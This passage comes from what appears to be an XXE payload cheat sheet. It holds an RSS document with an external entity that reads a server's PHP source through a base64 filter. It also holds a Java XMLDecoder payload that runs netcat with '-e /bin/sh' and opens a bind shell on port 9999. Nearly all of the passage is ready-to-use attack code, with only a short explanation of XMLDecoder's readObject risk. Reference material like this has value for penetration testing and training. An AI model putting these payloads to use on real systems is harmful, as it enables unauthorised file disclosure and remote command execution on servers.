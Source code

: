 ### Read source code

Using PHP base64 filter

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE title [ <!ELEMENT title ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:///challenge/web-serveur/ch29/index.php" >]>
<rss version="2.0" xmlns:atom="http://www.w3.org/2005/Atom">
<channel>
<title>The Blog</title>
<link>http://example.com/</link>
<description>A blog about things</description>
<lastBuildDate>Mon, 03 Feb 2014 00:00:00 -0000</lastBuildDate>
<item>
<title>&xxe;</title>
<link>http://example.com</link>
<description>a post</description>
<author>author@example.com</author>
<pubDate>Mon, 03 Feb 2014 00:00:00 -0000</pubDate>
</item>
</channel>
</rss>
```

## Java XMLDecoder XEE to RCE

XMLDecoder is a Java class that creates objects based on a XML message. If a malicious user can get an application to use arbitrary data in a call to the method **readObject**, he will instantly gain code execution on the server.

### Using Runtime\(\).exec\(\)

```markup
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
 <object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="6">
          <void index="0">
              <string>/usr/bin/nc</string>
          </void>
          <void index="1">
              <string>-l</string>
          </void>
          <void index="2">
              <string>-p</string>
          </void>
          <void index="3">
              <string>9999</string>
          </void>
          <void index="4">
              <string>-e</string>
          </void>
          <void index="5">
              <string>/bin/sh</string>
          </void>
      </array>
      </void>
 </object>
</java>
```

